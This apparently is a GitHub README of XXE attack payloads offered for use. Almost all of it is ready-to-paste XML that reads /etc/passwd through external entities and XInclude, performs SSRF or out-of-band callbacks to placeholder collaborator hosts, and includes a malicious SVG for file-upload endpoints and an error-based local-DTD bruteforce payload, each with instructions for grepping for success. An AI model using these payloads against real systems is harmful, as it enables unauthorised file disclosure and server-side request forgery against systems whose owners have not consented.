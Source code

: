 # My xxe payload
Coded by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Exploiting XXE using external entities to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### if 1st was fail
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]> //dont call xxe
```
### XXE to perform SSRF attacks
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://sarver-ip/"> ]>
```
### XXE TO SSRF
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### file upload
#### save this as  svg file and upload it. now check your uploaded picture with root:x content.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### brutforceing dtd
#### bruteforce "bruteforce-here" with your dtd list and grep  root:x | daemon:x
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://bruteforce-here">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
